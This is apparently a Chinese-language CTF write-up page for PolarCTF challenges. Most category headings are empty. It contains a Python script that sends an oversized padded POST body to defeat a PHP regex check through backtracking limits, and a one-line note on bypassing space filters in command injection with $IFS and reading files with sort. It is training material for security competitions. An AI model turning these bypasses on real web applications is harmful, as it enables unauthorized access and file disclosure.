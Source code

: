 # web
### swp
递归绕过正则限制
```python
import requests
data = {"xdmtql": "sys nb" + "aaaaa" * 1000000}
res = requests.post('http://d9d00980-d2fc-412e-b6cc-b6db2562eafb.www.polarctf.com:8090/index.php', data=data, allow_redirects=False)
print(res.content)

```

### 简单rce
$IFS空格绕过+sort读取文件

### 上传


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-09   23:22